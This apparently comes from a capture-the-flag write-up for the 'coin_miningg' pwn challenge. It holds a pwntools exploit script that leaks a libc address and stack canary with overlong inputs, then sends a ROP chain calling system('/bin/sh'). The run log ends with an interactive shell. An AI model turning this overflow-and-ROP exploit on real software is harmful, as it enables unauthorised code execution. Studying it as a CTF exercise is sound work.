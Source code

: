 ```py
r.recv()
r.sendline(b'1')
r.sendafter(b'Guess what coin I will give you: ', b'A' * 104)
libc.address = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\0')) - 0x43489
log.info(f'Libc address: {hex(libc.address)}')
r.sendafter(b'Try again: ', b'A' * 137)
r.recvuntil(b'A' * 137)
canary = u64(r.recv(7).rjust(8, b'\0'))
log.info(f'Canary: {hex(canary)}')
pop_rdi = libc.address + 0x000000000002155f
bin_sh = next(libc.search(b'/bin/sh\x00'))
payload = b'notHMCUS-CTF{a_coin_must_be_here}\n'
payload = payload.ljust(136, b'\x00')
payload += p64(canary)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(pop_rdi + 1)
payload += p64(libc.sym['system'])
r.sendlineafter(b'Try again: ', payload)
r.interactive()
```
```sh
python3 x.py                                                                                                                             ─╯
[*] '/home/lynklee/CTF/HCMUS/pwn/coin_miningg/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Starting local process '/home/lynklee/CTF/HCMUS/pwn/coin_miningg/chall': pid 2636
[*] '/home/lynklee/CTF/HCMUS/pwn/coin_miningg/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] running in new terminal: ['/usr/bin/gdb', '-q', '/home/lynklee/CTF/HCMUS/pwn/coin_miningg/chall', '2636', '-x', '/tmp/pwngycspo0f.gdb']
[+] Waiting for debugger: Done
[*] Paused (press any to continue)
[*] Libc address: 0x7f080ba00000
[*] Canary: 0x428f87296d0c9700
[*] Switching to interactive mode
Well done! Here is your coin!
$ id
uid=1000(lynklee) gid=1000(lynklee) groups=1000(lynklee),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),119(lpadmin),131(sambashare)
$ whoami
lynklee
```
